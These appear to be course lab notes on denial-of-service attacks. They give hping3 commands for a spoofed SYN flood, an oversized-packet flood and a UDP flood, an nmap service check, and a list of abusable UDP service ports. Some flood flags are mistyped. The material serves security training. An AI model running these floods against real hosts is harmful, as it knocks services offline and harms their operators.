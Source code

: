 # 10 - DoS

## Module 10 - Denial-of-Service

### **Lab1 - Task2: Perform a DoS Attack on a Target Host using hping3**

* **Target:**
  * Wireshark-\&gt;Ethernet
* **Attacker**
  * **hping3 -S \[Target IP] -a \[Spoofable IP] -p 22 -flood**
    * **-S: Set the SYN flag**
    * **-a: Spoof the IP address**
    * **-p: Specify the destination port**
    * **--flood: Send a huge number of packets**
* **Target**
  * Check wireshark
* **Attacker (Perform PoD)**
  * **hping3 -d 65538 -S -p 21 –flood \[Target IP]**
    * **-d: Specify data size**
    * **-S: Set the SYN flag**
* **Attacker (Perform UDP application layer flood attack)**
  * nmap -p 139 10.10.10.19 (check service)
  * **hping3 -2 -p 139 –flood \[IP]**
    * **-2: Specify UDP mode**
* **Other UDP-based applications and their ports**
  * CharGen UDP Port 19
  * SNMPv2 UDP Port 161
  * QOTD UDP Port 17
  * RPC UDP Port 135
  * SSDP UDP Port 1900
  * CLDAP UDP Port 389
  * TFTP UDP Port 69
  * NetBIOS UDP Port 137,138,139
  * NTP UDP Port 123
  * Quake Network Protocol UDP Port 26000
  * VoIP UDP Port 5060
